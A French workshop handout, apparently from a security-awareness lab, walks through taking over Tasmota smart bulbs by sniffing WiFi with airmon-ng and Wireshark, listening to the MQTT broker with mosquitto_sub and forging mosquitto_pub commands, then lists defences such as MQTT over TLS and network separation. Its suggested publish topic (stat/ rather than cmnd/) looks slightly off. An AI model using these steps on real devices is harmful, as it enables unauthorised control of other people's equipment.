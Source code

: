 # Activité : Forge de paquets MQTT sur Tasmota bulbs

## Qu'est-ce qu'une ampoule connectée Tasmota ?

Les ampoules connectées Tasmota permettent de changer la couleur à distance et offrent des animations possibles, comme :
- Dégradé de couleurs
- Couleurs tournantes

### Firmware open-source Tasmota

Tasmota est un firmware open-source, conçu pour fonctionner sans cloud. Il offre plusieurs avantages :
- **Contrôle total** de la sécurité de l'objet
- **Confidentialité** des messages échangés
- **Compatibilité et flexibilité** : facile à intégrer sans intermédiaires
- **Résilience et fiabilité** : indépendant de la connectivité à Internet

## Activité : Forge de paquets MQTT sur Tasmota bulbs

### A vous de jouer !

Dans cet atelier, nous partons du principe que les identifiants du WiFi ont déjà été compromis.

### Étape 1 : Mise en écoute du réseau avec l'utilitaire Aircrack

1. Récupérez le nom de votre interface réseau avec la commande :
    ```bash
    ip -4 --br a
    ```

2. Pour démarrer Aircrack, exécutez la commande suivante :
    ```bash
    sudo airmon-ng start interface
    ```

### Étape 2 : Ouvrir l’utilitaire Wireshark pour analyser le réseau

1. Dans Wireshark, allez dans le menu `Edit -> Preferences -> Protocols -> IEEE 802.11`.
2. Entrez la clé suivante permettant de déchiffrer les échanges sur le réseau.
3. Filtrez les trames par `mqtt`.
4. Recherchez le paquet suivant (1er paquet) : 

### Étape 3 : Écoute des messages du broker MQTT

Nous avons récupéré les identifiants du broker MQTT, comparez-les avec ceux du WiFi.

1. Pour écouter les messages qui transitent sur le broker, quittez le mode MONITOR avec la commande :
    ```bash
    sudo airmon-ng stop wlp0s20f3mon
    ```

2. Lancez la commande suivante pour vous connecter au broker :
    ```bash
    mosquitto_sub -h 192.168.10.2 -t '#' -u USERNAME -P PASSWORD
    ```

3. Observez les messages qui transitent sur le réseau. Exemple :
    ```
    cmnd/tasmota_CFFCD0/Backlog NoDelay;Power1 OFF
    stat/tasmota_CFFCD0/RESULT {"POWER":"OFF"}
    stat/tasmota_CFFCD0/POWER OFF
    ```

### Étape 4 : Envoi de trames MQTT d'ordre aux ampoules

Les topics à utiliser pour publier des messages :
- Dans l'exemple précédent :
  - Topic : `stat/tasmota_CFFCD0/RESULT`
  - Donnée : `NoDelay;Power1 OFF` ou `{"POWER":"ON"}`

Tentez de forger une nouvelle trame avec le modèle suivant :
    ```bash
    mosquitto_pub -h 192.168.10.2 -u "USER" -P "PASSWORD" -t "TOPIC" -m "DATA"
    ```

### Arrivez-vous à :

- Éteindre/allumer l’ampoule ?
- Changer la couleur de l’ampoule ?

**Félicitations**, vous avez réussi à prendre le contrôle d’un appareil IoT qui ne vous appartient pas !

## Bilan de l'activité : Comment se protéger d'une attaque par forge de paquet ?

Voici quelques mesures pour sécuriser votre réseau et éviter des attaques similaires :

- **Sécuriser les flux MQTT avec le protocole MQTT/SSL.**
- **Utiliser des mots de passe forts** pour vos brokers MQTT/SSL, par exemple : TeeX4eyH3dJq&Cv8t$QDNvqN%BxUIx^U
- **Séparer le réseau IoT du réseau principal** : Différez bien vos réseaux en fonction de vos usages.
- **Activer le filtrage MAC sur le réseau** pour empêcher de nouvelles machines inconnues de s’y connecter.

Des questions ? Des remarques ? Discutons-en !

